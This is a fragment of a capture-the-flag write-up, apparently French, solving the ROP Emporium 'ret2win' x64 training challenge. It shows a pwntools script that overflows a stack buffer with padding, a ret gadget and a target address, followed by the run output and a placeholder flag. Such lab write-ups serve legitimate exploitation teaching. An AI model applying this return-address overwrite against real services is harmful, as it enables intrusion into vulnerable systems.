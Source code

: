 ```python
time.sleep(.5)


io.recvuntil(b"> ")

# for stack alignement in case of movabs usage
ropnop=0x400770

PL=0x28*b"A"+p64(ropnop)+p64(target)
io.sendline(PL)
io.interactive()
```

### Exécution

```sh
jce@zbook310152:~/w/ropemporium/x64/01_ret2win$ python3 solve.py
[*] '/home/jce/w/ropemporium/x64/01_ret2win/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/jce/w/ropemporium/x64/01_ret2win/ret2win': pid 6953
[*] Switching to interactive mode
Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
[*] Process '/home/jce/w/ropemporium/x64/01_ret2win/ret2win' stopped with exit code 0 (pid 6953)
[*] Got EOF while reading in interactive
```

